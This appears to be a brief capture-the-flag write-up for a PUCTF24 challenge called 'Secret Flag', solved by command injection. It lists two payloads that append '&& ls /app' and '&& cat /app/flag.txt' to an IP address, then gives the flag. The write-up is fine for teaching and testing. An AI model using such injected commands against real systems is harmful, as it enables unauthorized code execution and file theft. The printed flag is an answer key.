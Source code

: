# Secret Flag 秘旗

Try type in:

- `127.0.0.1 && ls /app #`
- `127.0.0.1 && cat /app/flag.txt #`

flag: PUCTF24{Rem0te_C0de_Execut10n_exp101t_thr0ugh_c0mmand_1nject10n}
